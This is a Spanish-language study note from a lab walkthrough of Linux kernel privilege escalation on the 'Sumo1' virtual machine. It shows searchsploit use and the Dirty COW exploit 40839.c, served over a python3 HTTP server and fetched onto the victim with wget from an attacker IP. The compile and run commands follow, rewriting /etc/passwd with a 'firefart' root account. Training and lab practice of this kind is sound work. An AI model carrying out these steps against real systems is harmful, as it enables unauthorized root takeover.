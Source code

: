 -----
- Tags: #privilege #escalation 
-----
# Definición

> El **kernel** es la parte central del sistema operativo Linux, que se encarga de administrar los recursos del sistema, como la memoria, los procesos, los archivos y los dispositivos. Debido a su papel crítico en el sistema, cualquier vulnerabilidad en el kernel puede tener graves consecuencias para la seguridad del sistema.

En versiones antiguas del kernel de Linux, se han descubierto vulnerabilidades que pueden ser explotadas para permitir a los atacantes obtener acceso de superusuario (**root**) en el sistema.

Las vulnerabilidades del kernel pueden ser explotadas de varias maneras. Por ejemplo, un atacante podría aprovechar una vulnerabilidad en un controlador de dispositivo para obtener acceso al kernel y realizar operaciones maliciosas. Otra forma común en que se explotan las vulnerabilidades del kernel es mediante el uso de técnicas de desbordamiento de búfer, que permiten a los atacantes escribir código malicioso en áreas de memoria reservadas para el kernel.

Para mitigar el riesgo de vulnerabilidades del kernel, es importante mantener actualizado el sistema operativo y aplicar parches de seguridad tan pronto como estén disponibles.

# Explotación del Kernel

## Máquina Sumo

Para este ejemplo de explotación del **Kernel** lo mostraremos a partir de una máquina virtual llamada "**Sumo1**" la cual posee una versión antigua del Kernel.

Una vez montada y encendida la máquina, debemos realizar un reconocimiento básico hasta encontrar un servicio web que posee un **directorio** llamado ``/cgi-bin/`` el cual recordemos es una vía potencial para efectuar un [[Ataque ShellShock]], por lo tanto intentaremos efectuar el mismo.

Cuando ya tengamos acceso a la máquina, con el tratamiento de la Shell efectuado por completo, es momento de explotar el **Kernel**.

------

Si realizamos un ``lsb_release -a`` y luego un ``uname -a`` podemos ver la versión del **Kernel** luego del segundo comando.

![[Kernel 1.png]]

Ahora con la herramienta ``searchsploit`` haremos un ``searchsploit kernel 3.2`` para ver los Exploits existentes para esta versión de Kernel. Tras ver todas las posibilidades veremos que hay muchas de ellas que en su nombre indican una cadena "**Dirty Cow**" y que todos están programados en el lenguaje **C**. 

> **Dirty COW** es una vulnerabilidad de seguridad informática del kernel de Linux que afectó a todos los sistemas operativos basados ​​en Linux, incluidos los dispositivos Android, que usaban versiones anteriores del kernel de Linux creadas antes de 2018.

El que vamos a usar de todos los que aparecen es el siguiente

![[Kernel 2.png]]

Este CVE lo que hace es modificar el ``/etc/passwd`` **eliminando** el usuario *root* y creando uno personalizado en su lugar con el **identificador de usuario** (``0``) correspondiente a root. Por lo tanto lo que haremos será copiar su **Código de Path** y realizar un ``searchsploit -m linux/local/40839.c`` para descargarlo. Ahora podemos **modificar su nombre** para que sea mas reconocible.

Lo que queda ahora es transferirlo a la máquina víctima, en mi caso lo voy a hacer montando un servidor en el mismo directorio en el que está el binario, todo esto con **python3** tal que ``python3 -m http.server 80`` y luego en la otra máquina realizamos un ``wget http://192.168.0.194/dirty-cow.c``, de esta forma ya transferimos el **Script malicioso** correctamente.

----------

Una vez tengamos el Script en la máquina víctima lo que vamos a hacer es un ``cat dirty-cow.c | grep gcc`` ya que normalmente **estos Scripts te indican que es lo que debemos ejecutar**.

El comando anterior nos devolverá lo siguiente

- ``gcc -pthread dirty-cow.c -o dirty -lcrypt``

Por lo tanto lo vamos a ejecutar pero sin antes cambiar el **PATH** de la siguiente manera ``PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH``, ya que ``gcc`` emplea librerías modernas y recordemos que esta máquina posee un sistema antiguo.

De esta forma tendríamos nuestro **binario ejecutable** por lo tanto hacemos un ``./dirty``, esto nos dará un mensaje que dice "``/etc/passwd successfully backed up to /tmp/passwd.bak``" y nos pedirá que creemos una contraseña para el usuario privilegiado, en mi caso será *test*. ==Cabe aclarar que tenemos que esperar un minuto hasta que termine de realizar todo el procedimiento==

Si ahora revisamos el ``/etc/passwd`` veremos que en donde estaba el usuario *root*, aparecerá un usuario llamado *firefart*, por lo tanto debemos ingresar a el con la contraseña que creamos previamente.

![[Kernel 3.png]]

Si realizamos un ``id`` veremos que **poseemos el identificador de usuario** (``0``)

------
## Herramienta LES (Linux Exploit Suggester)

Existe una herramienta llamada [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester) que una vez la ejecutemos dentro de la máquina víctima **realizará un escaneo** que buscará formas potenciales de escalar nuestro privilegio **basándose en el Kernel actual**.
